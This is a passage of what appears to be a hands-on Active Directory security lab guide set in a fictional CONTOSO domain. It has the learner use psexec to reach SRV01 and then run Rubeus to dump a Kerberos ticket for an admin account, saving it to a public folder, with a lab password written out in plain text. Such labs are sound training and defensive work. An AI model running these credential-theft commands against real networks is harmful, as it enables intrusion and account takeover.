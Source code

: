 1. [] We are still on **@lab.VirtualMachine(CLI01).SelectLink** with the following credentials:
    |||
    |:--------|:--------|
    | Username | `CONTOSO\red` |
    | Password | Please type the password |
    

1. [] You should still have a **Connie CMD** red prompt open. If that's not the case, we are going to get back one by right clicking on the Start menu ![image](.\IMG\11menu.png) and then clicking on **Windows Terminal (Admin)**. In the **Windows Terminal** window, run the following: `runas /user:connie.flores@contoso.com cmd.exe` and use the following password `NeverTrustAny1!`. Then run `color 4F & title Connie CMD` and `cd \Tools\PStools`.

1. [] In **Connie CMD** red prompt window, run `psexec.exe \\SRV01 cmd.exe -accepteula`

    ⌚ The might take a little while (about a minute).

1. [] If this is successful, the title of the window will be **\\\SRV01: cmd.exe**. Run the following command `cd \Tools\Ghostpack` then run `rubeus.exe dump /user:katrina.mendoza.adm /service:krbtgt`

1. [] Copy the base64 output into your clipboard.
![image](.\IMG\bq7frbd6.png)

1. [] Right click on the Start menu ![image](.\IMG\11menu.png) and click **Run**. In the **Run** window, type `notepad.exe` and click **OK**.

1. [] In the **Notepad** window, paste the base64 value and save the file. Click **File** then **Save as** and in the **File name** field type `C:\Users\Public\tgt.txt` and click **Save**.

1. [] Exit the PSExec session by also running `exit`. It will look like this:
![image](.\IMG\EXIT1.png)
Then after few seconds you get the prompt back (if it seems to take to long, hit **[Ctrl] + C** to speed up the termination).
